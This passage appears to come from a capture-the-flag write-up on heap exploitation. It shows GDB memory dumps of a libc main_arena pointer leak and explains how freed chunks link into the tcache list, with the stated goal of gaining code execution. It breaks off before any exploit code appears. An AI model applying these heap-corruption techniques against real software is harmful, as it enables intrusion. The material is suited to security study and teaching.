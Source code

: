 ```
0x55f427dd6350:	0x0	0x101
0x55f427dd6360:	0x3832373533393531	0x7f1f03cd8ca0
```

Also we can see that the pointer we leak points to a main arena entry.

```
gef➤  x/g 0x7f1f03cd8ca0
0x7f1f03cd8ca0 <main_arena+96>:	0x55f427dd6c50
```

Now to get code execution, we will abuse the tcache mechanism. How the tcache works is it stores recently freed chunks in a linked list, which we can see here. First we see two chunks of size `0xf8`:

```
gef➤  x/64g 0x56396b21a750
0x56396b21a750: 0x3434343434343434  0x101
0x56396b21a760: 0x3535353535353535  0x3535353535353535
0x56396b21a770: 0x3535353535353535  0x3535353535353535
0x56396b21a780: 0x3535353535353535  0x3535353535353535
0x56396b21a790: 0x3535353535353535  0x3535353535353535
0x56396b21a7a0: 0x3535353535353535  0x3535353535353535
0x56396b21a7b0: 0x3535353535353535  0x3535353535353535
0x56396b21a7c0: 0x3535353535353535  0x3535353535353535
0x56396b21a7d0: 0x3535353535353535  0x3535353535353535
0x56396b21a7e0: 0x3535353535353535  0x3535353535353535
0x56396b21a7f0: 0x3535353535353535  0x3535353535353535
0x56396b21a800: 0x3535353535353535  0x3535353535353535
0x56396b21a810: 0x3535353535353535  0x3535353535353535
0x56396b21a820: 0x3535353535353535  0x3535353535353535
0x56396b21a830: 0x3535353535353535  0x3535353535353535
0x56396b21a840: 0x3535353535353535  0x3535353535353535
0x56396b21a850: 0x3535353535353535  0x101
0x56396b21a860: 0x3636363636363636  0x3636363636363636
0x56396b21a870: 0x3636363636363636  0x3636363636363636
0x56396b21a880: 0x3636363636363636  0x3636363636363636
0x56396b21a890: 0x3636363636363636  0x3636363636363636
0x56396b21a8a0: 0x3636363636363636  0x3636363636363636
0x56396b21a8b0: 0x3636363636363636  0x3636363636363636
0x56396b21a8c0: 0x3636363636363636  0x3636363636363636
0x56396b21a8d0: 0x3636363636363636  0x3636363636363636
0x56396b21a8e0: 0x3636363636363636  0x3636363636363636
0x56396b21a8f0: 0x3636363636363636  0x3636363636363636
0x56396b21a900: 0x3636363636363636  0x3636363636363636
0x56396b21a910: 0x3636363636363636  0x3636363636363636
0x56396b21a920: 0x3636363636363636  0x3636363636363636
0x56396b21a930: 0x3636363636363636  0x3636363636363636
0x56396b21a940: 0x3636363636363636  0x3636363636363636
```

Then when we free them, we can see how at the qword of where the data goes, there is a pointer to the next chunk:

```
gef➤  x/64g 0x56396b21a750
0x56396b21a750: 0x0 0x101
0x56396b21a760: 0x56396b21a860  0x56396b21a010
0x56396b21a770: 0x0 0x0
0x56396b21a780: 0x0 0x0
0x56396b21a790: 0x0 0x0
0x56396b21a7a0: 0x0 0x0
0x56396b21a7b0: 0x0 0x0
0x56396b21a7c0: 0x0 0x0
0x56396b21a7d0: 0x0 0x0
0x56396b21a7e0: 0x0 0x0
0x56396b21a7f0: 0x0 0x0
0x56396b21a800: 0x0 0x0
```